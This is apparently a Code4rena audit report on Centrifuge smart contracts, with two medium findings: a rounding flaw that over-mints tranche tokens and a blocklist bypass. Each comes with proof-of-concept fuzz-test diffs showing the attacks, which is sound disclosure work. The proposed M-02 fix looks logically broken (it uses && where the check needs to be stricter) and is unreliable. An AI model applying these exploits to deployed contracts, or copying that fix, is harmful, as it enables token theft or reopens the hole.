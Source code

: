 
# Centrifuge

**Date:** 08.09.2023-14.09.2023

**Platform:** Code4rena

| Severity      | Count |
| :---          |  ---: |
| High          | 0 |
| Medium        | 2  |
| Low           | 0  |
| Non-Critical  | 0  |

# Medium Findings

## [M-01] Users can claim more tranche tokens than allowed by CFG

[InvestmentManager Line 580](https://github.com/code-423n4/2023-09-centrifuge/blob/main/src/InvestmentManager.sol#L580)

### Impact
Following a user's submission of a deposit request and depositing their USDC (or equivalent) into the escrow, the CFG chain calculates the tokens the user will receive based on the current exchange rate and updates the `maxMint` and `maxDeposit` variables accordingly. Subsequently, a user can choose to claim portions of the tokens or all at once.

The issue arises due to rounding errors in the functions that calculate the price and token awards for partial claims and when a user claims all tokens at once. In certain edge cases, these rounding errors can allow users to claim more tokens than permitted by the CFG chain using the maxMint variable. The errors stem from rounding down instead of up in the `_calculatePrice()` function:

```solidity
function _calculatePrice(uint128 currencyAmount, uint128 trancheTokenAmount, address liquidityPool) public view returns (uint256 depositPrice){

	...

	depositPrice = currencyAmountInPriceDecimals.mulDiv( 10 ** PRICE_DECIMALS, trancheTokenAmountInPriceDecimals, MathLib.Rounding.Down);
}
```

Furthermore, there should typically be an underflow when the claimed tokens are deducted from the `maxMint`. Solidity's underflow protection would then trigger a revert, making it impossible for users to claim more than allowed. Unfortunately, the developers have circumvented this security measure by implementing the function that decreases the user's `maxMint` variable as follows:

```solidity
function _decreaseDepositLimits(address user, address liquidityPool, uint128 _currency, uint128 trancheTokens) internal {
	LPValues storage lpValues = orderbook[user][liquidityPool];
	if (lpValues.maxDeposit < _currency) {
		lpValues.maxDeposit = 0;
	} else {
		lpValues.maxDeposit = lpValues.maxDeposit - _currency;
	}

	if (lpValues.maxMint < trancheTokens) {
		lpValues.maxMint = 0;
	} else {
		lpValues.maxMint = lpValues.maxMint - trancheTokens;
	}
}
```

This implementation allows a user to receive more tokens than they were allowed to without triggering an underflow protection. This scenario would necessitate there being more tokens in the escrow than there were initially minted for the users depositRequest, allowing the user to claim/steal tokens allocated to another user.

### Proof of Concept

The provided Proof of Concept (POC) is a fuzz test that explores various inputs and claim amounts leading to the user receiving more tokens than they should have been allowed to.

#### testMaliciousUserScenarioSingleDeposit
Example Inputs:
`totalAmount = 1`
`tokenAmount = 1480750103`

Result:
`Intended retrieved tokens = 1480750103`
`Actually retrieved tokens = 1480750105`

#### testMaliciousUserScenarioMultipleDeposit
Example Inputs:
`totalAmount = 2`
`deposit1    = 1`
`deposit2    = 1`
`tokenAmount = 2913902725`

Result:
`Intended retrieved tokens = 2913902725`
`Actually retrieved tokens = 2913902726`

Attached to this you can find the diff for both tests:

<details>

```diff
diff --git a/test/LiquidityPool.t.sol b/test/LiquidityPool_TestsDeposit.t.sol
index 4e60ec1..f514650 100644
--- a/test/LiquidityPool.t.sol
+++ b/test/LiquidityPool_TestsDeposit.t.sol
@@ -207,37 +207,106 @@ contract LiquidityPoolTest is TestSetup {
         investor.withdraw(lPool_, lPool.maxWithdraw(address(investor)), address(investor), address(investor));
     }
 
-    function testMint(
-        uint64 poolId,
-        string memory tokenName,
-        string memory tokenSymbol,
-        bytes16 trancheId,
-        uint128 currencyId,
-        uint256 amount,
-        uint64 validUntil
+    function testMaliciousUserScenarioSingleDeposit(
+        uint256 totalAmount,
+        uint256 tokenAmount
     ) public {
-        vm.assume(currencyId > 0);
-        vm.assume(amount < MAX_UINT128);
-        vm.assume(validUntil >= block.timestamp);
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
 
-        address lPool_ = deployLiquidityPool(poolId, erc20.decimals(), tokenName, tokenSymbol, trancheId, currencyId);
-        LiquidityPool lPool = LiquidityPool(lPool_);
+        //As the values get scaled to 18 decimals but the tokens only have 6, we need to account for this, so no overflow is possible
+        vm.assume(totalAmount > 0 && totalAmount < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
 
-        Investor investor = new Investor();
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
 
-        vm.expectRevert(bytes("Auth/not-authorized"));
-        lPool.mint(address(investor), amount);
+        //Some other users also have tokens currently in escrow, simplified here
+        root.relyContract(address(lPool), self); 
+        lPool.mint(address(escrow), 10000);
 
-        root.relyContract(lPool_, self); // give self auth permissions
+        // Malicious user gets added as a member
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
 
-        vm.expectRevert(bytes("RestrictionManager/destination-not-a-member"));
-        lPool.mint(address(investor), amount);
+        // Malicious user has totalAmount
+        erc20.mint(self, totalAmount);
 
-        homePools.updateMember(poolId, trancheId, address(investor), validUntil); // add investor as member
+        // Malicious user adds an allowance for the IM
+        erc20.approve(address(investmentManager), totalAmount); 
 
-        lPool.mint(address(investor), amount);
-        assertEq(lPool.balanceOf(address(investor)), amount);
-        assertEq(lPool.balanceOf(address(investor)), lPool.share().balanceOf(address(investor)));
+        // Deposit is requested
+        lPool.requestDeposit(totalAmount, self);
+               
+        // Ensure funds are locked in escrow
+        assertEq(erc20.balanceOf(address(escrow)), totalAmount);
+        assertEq(erc20.balanceOf(self), 0);
+
+        // Gateway returns randomly generated values for amount of tranche tokens and currency
+        homePools.isExecutedCollectInvest(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(totalAmount), uint128(tokenAmount)
+        );
+
+        // Malicious user calls to claim tokens
+        lPool.deposit(totalAmount, self);
+
+        // Malicious user has less or equal to the tokens that he should be allowed to hav by CFG
+        assertLe(lPool.balanceOf(self), tokenAmount);
+    }
+
+    function testMaliciousUserScenarioMultipleDeposit(        
+        uint256 totalAmount,
+        uint256 deposit1,
+        uint256 deposit2,
+        uint256 tokenAmount
+    ) public {
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
+
+        //As the values get scaled to 18 decimals but the tokens only have 6, we need to account for this, so no overflow is possible
+        vm.assume(totalAmount > 0 && totalAmount < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
+        vm.assume(deposit1 > 0 && deposit1 < type(uint128).max / 10**12);
+        vm.assume(deposit2 > 0 && deposit2 < type(uint128).max / 10**12);
+        vm.assume(deposit1+deposit2==totalAmount);
+
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
+
+        //Some other users also have tokens currently in escrow, simplified here
+        root.relyContract(address(lPool), self); 
+        lPool.mint(address(escrow), 10000);
+
+        // Malicious user gets added as a member
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+
+        // Malicious user has totalAmount
+        erc20.mint(self, totalAmount);
+
+        // Malicious user adds an allowance for the IM
+        erc20.approve(address(investmentManager), totalAmount); 
+
+        // Deposit is requested
+        lPool.requestDeposit(totalAmount, self);
+               
+        // Ensure funds are locked in escrow
+        assertEq(erc20.balanceOf(address(escrow)), totalAmount);
+        assertEq(erc20.balanceOf(self), 0);
+
+        // Gateway returns randomly generated values for amount of tranche tokens and currency
+        homePools.isExecutedCollectInvest(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(totalAmount), uint128(tokenAmount)
+        );
+
+        // Malicious user calls to claim tokens
+        lPool.deposit(deposit1, self);
+        lPool.deposit(deposit2, self);
+
+        // Malicious user has less or equal to the tokens that he should be allowed to hav by CFG
+        assertLe(lPool.balanceOf(self), tokenAmount);
     }
 
     function testBurn(
@@ -1346,4 +1415,4 @@ contract LiquidityPoolTest is TestSetup {
         );
         investor.deposit(_lPool, amount, _investor); // deposit the amount
     }
-}
+}
\ No newline at end of file
```
</details>


### Tools Used
Manual Review

### Recommended Mitigation Steps
Initially, it might seem that the issue can be resolved by switching the rounding method from `MathLib.Rounding.Down` to `MathLib.Rounding.Up` in the `_calculatePrice()` function. However, this straightforward adjustment triggers complications within the redeem process.

Changing the rounding function to `MathLib.Rounding.Up` leads to incorrect price calculations during the `processRedeem()` functionality. The core problem is partially fixed/secured by the UserEscrow contract, which includes a safeguard preventing users from withdrawing more USDC than they are permitted to based on the CFG chain.

```solidity
function transferOut(address token, address destination, address receiver, uint256 amount) external auth {
	require(destinations[token][destination] >= amount, "UserEscrow/transfer-failed");
	...
}
```

Nevertheless, modifying the rounding function in this manner results in users being unable to redeem the full tokens permited to redeem by CFG, as this safeguard is triggered. While this prevents the UserEscrow from transferring out other users' funds, it can lead to inconvenience and confusion for users who are only able to withdraw a partial amount of the tokens they requested to redeem.

Below, you will find the code diff for two test cases illustrating these issues, covering both partial and full redemption scenarios:

#### testMaliciousUserScenarioSingleRedeem
Example Inputs:
`totalRedeemableUSDC = 452857328473`
`tokenAmount         = 498106289492761508995438`

#### testMaliciousUserScenarioMultipleRedeem
Example Inputs:
`redeem1             = 1`
`totalRedeemableUSDC = 1`
`tokenAmount         = 2000000000004000001`

<details>

```diff
diff --git a/test/LiquidityPool.t.sol b/test/LiquidityPool_TestsRedeem.t.sol
index 4e60ec1..15a0683 100644
--- a/test/LiquidityPool.t.sol
+++ b/test/LiquidityPool_TestsRedeem.t.sol
@@ -207,37 +207,125 @@ contract LiquidityPoolTest is TestSetup {
         investor.withdraw(lPool_, lPool.maxWithdraw(address(investor)), address(investor), address(investor));
     }
 
-    function testMint(
-        uint64 poolId,
-        string memory tokenName,
-        string memory tokenSymbol,
-        bytes16 trancheId,
-        uint128 currencyId,
-        uint256 amount,
-        uint64 validUntil
+    function testMaliciousUserScenarioSingleRedeem(
+        uint128 totalRedeemableUSDC,
+        uint128 tokenAmount
     ) public {
-        vm.assume(currencyId > 0);
-        vm.assume(amount < MAX_UINT128);
-        vm.assume(validUntil >= block.timestamp);
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
 
-        address lPool_ = deployLiquidityPool(poolId, erc20.decimals(), tokenName, tokenSymbol, trancheId, currencyId);
-        LiquidityPool lPool = LiquidityPool(lPool_);
+        //As the values get scaled to 18 decimals but the tokens only have 6 decimals, we need to account for this, so no overflow is possible
+        vm.assume(totalRedeemableUSDC > 0 && totalRedeemableUSDC < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
 
-        Investor investor = new Investor();
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
 
-        vm.expectRevert(bytes("Auth/not-authorized"));
-        lPool.mint(address(investor), amount);
+        //Malicious user deposited into the LP some time ago
+        uint256 first_invest = 1000000000000;
+        erc20.mint(self, first_invest);
+        erc20.approve(address(investmentManager), first_invest); 
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+        lPool.requestDeposit(first_invest, self);
+        homePools.isExecutedCollectInvest(poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(first_invest), tokenAmount);
+        uint128 receivedTokenAmount = uint128(lPool.deposit(first_invest, self));
 
-        root.relyContract(lPool_, self); // give self auth permissions
+        //User should have his tokens now
+        assertEq(lPool.balanceOf(self), receivedTokenAmount);
 
-        vm.expectRevert(bytes("RestrictionManager/destination-not-a-member"));
-        lPool.mint(address(investor), amount);
+        //Some other users now also deposit USDC in escrow, simplified here
+        erc20.mint(address(escrow), totalRedeemableUSDC);
 
-        homePools.updateMember(poolId, trancheId, address(investor), validUntil); // add investor as member
+        //There is also some money currently in user escrow, also simplified
+        erc20.mint(address(userEscrow), 10000000000000000000);
 
-        lPool.mint(address(investor), amount);
-        assertEq(lPool.balanceOf(address(investor)), amount);
-        assertEq(lPool.balanceOf(address(investor)), lPool.share().balanceOf(address(investor)));
+        // IM gets allowance for the totalAmount by the malicious user
+        lPool.approve(address(investmentManager), uint256(receivedTokenAmount)); 
+
+        // User requests deposit
+        lPool.requestRedeem(uint256(receivedTokenAmount), self);
+
+        // Gateway returns that price is 1:1 so maxWithdraw and maxRedeem get set to 100
+        homePools.isExecutedCollectRedeem(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, totalRedeemableUSDC, receivedTokenAmount
+        );
+
+        //Calculation to split the received tokens into two parts
+        lPool.redeem(uint256(receivedTokenAmount), self, self);
+
+        // Malicious user should have more USDC than intended
+        assertLe(erc20.balanceOf(self), uint256(totalRedeemableUSDC));
+    }
+
+
+    function testMaliciousUserScenarioMultipleRedeem(
+        uint128 redeem1,
+        uint128 totalRedeemableUSDC,
+        uint128 tokenAmount
+    ) public {
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
+
+        //As the values get scaled to 18 decimals but the tokens only have 6 decimals, we need to account for this, so no overflow is possible
+        vm.assume(totalRedeemableUSDC > 0 && totalRedeemableUSDC < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
+        vm.assume(redeem1 > 0 && redeem1 < type(uint128).max / 10**12);
+        
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
+
+        //Malicious user deposited into the LP some time ago
+        uint256 first_invest = 1000000000000;
+        erc20.mint(self, first_invest);
+        erc20.approve(address(investmentManager), first_invest); 
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+        lPool.requestDeposit(first_invest, self);
+        homePools.isExecutedCollectInvest(poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(first_invest), tokenAmount);
+        uint128 receivedTokenAmount = uint128(lPool.deposit(first_invest, self));
+
+        //User should have his tokens now
+        assertEq(lPool.balanceOf(self), receivedTokenAmount);
+
+        //Some other users now also deposit USDC in escrow, simplified here
+        erc20.mint(address(escrow), totalRedeemableUSDC);
+
+        //There is also some money currently in user escrow, also simplified
+        erc20.mint(address(userEscrow), 10000000000000000000);
+
+        // IM gets allowance for the totalAmount by the malicious user
+        lPool.approve(address(investmentManager), uint256(receivedTokenAmount)); 
+
+        // User requests deposit
+        lPool.requestRedeem(uint256(receivedTokenAmount), self);
+
+        // Gateway returns that price is 1:1 so maxWithdraw and maxRedeem get set to 100
+        homePools.isExecutedCollectRedeem(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, totalRedeemableUSDC, receivedTokenAmount
+        );
+
+        //Calculation to split the received tokens into two parts
+        redeem1 = redeem1 % receivedTokenAmount;
+        uint128 redeem2 = receivedTokenAmount - redeem1;
+
+        assertEq(redeem1+redeem2, receivedTokenAmount);
+
+        //Due to the mod one of both could be 0
+        if (redeem1 != 0)
+        {
+            lPool.redeem(uint256(redeem1), self, self);
+        }
+
+        if(redeem2 != 0)
+        {
+            lPool.redeem(uint256(redeem2), self, self);
+        }
+
+        // Malicious user should have more USDC than intended
+        assertLe(erc20.balanceOf(self), uint256(totalRedeemableUSDC));
     }
 
     function testBurn(
@@ -1346,4 +1434,4 @@ contract LiquidityPoolTest is TestSetup {
         );
         investor.deposit(_lPool, amount, _investor); // deposit the amount
     }
-}
+}
\ No newline at end of file
```
</details>

To address this issue, the recommendation to the project team is to split the `_calculatePrice` function into two functions: `_calculatePriceInbound` and `_calculatePriceOutgoing`. For `_calculatePriceInbound`, use the rounding function `MathLib.Rounding.Up`, and for `_calculatePriceOutgoing`, use the rounding function `MathLib.Rounding.Down`.

This approach will ensure that both the minting and redeeming processes work correctly without rounding errors while maintaining the necessary security measures.

## [M-02] Insufficient Restriction checks on the blocklist

[RestrictionsManager Line 28](https://github.com/code-423n4/2023-09-centrifuge/blob/main/src/token/RestrictionManager.sol#L28)

## Impact
The tranche token incorporates functionalities to comply with ERC1404 requirements. This design aims to ensure that, in the event an address is added to a sanction list, that address is removed as a member (by setting its validity to the current timestamp), and all corresponding tranche tokens become non-transferable, unburnable, and un-mintable.

According to the contest description the intended behavior can be described like this: "Removing an investor from the memberlist in the Restriction Manager locks their tokens. This is expected behaviour."

However, there is a critical flaw in the implementation. The `detectTransferRestriction()` function only verifies the destination address of a transaction for membership status (not being blacklisted) but neglects to check the source address. This oversight allows blacklisted users to transfer their tokens to any address not on the blacklist, effectively bypassing the imposed restrictions.

```solidity
function detectTransferRestriction(address from, address to, uint256 value) public view returns (uint8) {
	if (!hasMember(to)) {
		return DESTINATION_NOT_A_MEMBER_RESTRICTION_CODE;
	}
	return SUCCESS_CODE;
}
```
Moreover, even in non-malicious scenarios, expired members can still transfer their tokens, which contradicts the intended behavior.

## Proof of Concept

In the provided Proof of Concept, it is demonstrated that a blacklisted user can successfully transfer their tokens after supposedly being "removed" as a member, exploiting the existing vulnerability.

<details>

```diff
diff --git a/test/token/Tranche.t.sol.orig b/test/token/Tranche_BlocklistIneffective.t.sol
index 38889a3..4c18960 100644
--- a/test/token/Tranche.t.sol.orig
+++ b/test/token/Tranche_BlocklistIneffective.t.sol
@@ -159,6 +159,43 @@ contract TrancheTokenTest is Test {
         assertEq(token.balanceOf(targetUser), 0);
     }
 
+    function testTransferFromTokensFromBlacklistedMember(uint256 amount, address sourceUser,address targetUser, uint256 validUntil) public {
+        
+        vm.assume(validUntil > block.timestamp + 1 && 
+                    sourceUser != address(0) && sourceUser != address(this) && sourceUser != address(token) && 
+                    targetUser != address(0) && targetUser != address(this) && targetUser != address(token));
+
+        //Source user is not blacklisted
+        restrictionManager.updateMember(sourceUser, validUntil);
+        assertEq(restrictionManager.members(sourceUser), validUntil);
+
+        //Mint to source
+        token.mint(address(this), amount);
+        token.transferFrom(address(this), sourceUser, amount);
+        assertEq(token.balanceOf(sourceUser), amount);
+
+        //Source user gets blacklisted
+        //NOTE: This is the only way we can currently remove a member, described in other issue
+        restrictionManager.updateMember(sourceUser, block.timestamp);
+
+        //Now we need to update the timestamp otherwise the user would still be valid
+        vm.warp(block.timestamp + 1);
+
+        //The blacklisted user gets a membership for the tranche with his new account
+        restrictionManager.updateMember(targetUser, validUntil);
+
+        //Transfer from the blacklisted user
+        vm.prank(sourceUser);
+        token.transfer(targetUser, amount);
+
+
+        //SourceUser should be blacklisted and have no money anymore, destination user should be not blacklisted and have all the tokens
+        assertEq(token.balanceOf(sourceUser), 0);
+        assertEq(token.balanceOf(targetUser), amount);
+        assertEq(RestrictionManager(address(token.restrictionManager())).hasMember(sourceUser), false);
+        assertEq(RestrictionManager(address(token.restrictionManager())).hasMember(targetUser), true);
+    }
+
     // Transfer
     function testTransferTokensToMemberWorks(uint256 amount, address targetUser, uint256 validUntil) public {
         vm.assume(baseAssumptions(validUntil, targetUser));
```
</details>

## Tools Used
Manual Review

## Recommended Mitigation Steps
To address this issue, an additional check should be introduced within the `detectTransferRestriction()` function to ensure comprehensive verification. This enhanced implementation could resemble the following:

```solidity
// --- ERC1404 implementation ---

function detectTransferRestriction(address from, address to, uint256 value) public view returns (uint8) {
	if (!hasMember(to) && !hasMember(from)) {
		return DESTINATION_NOT_A_MEMBER_RESTRICTION_CODE;
	}
	return SUCCESS_CODE;
}
```

</details>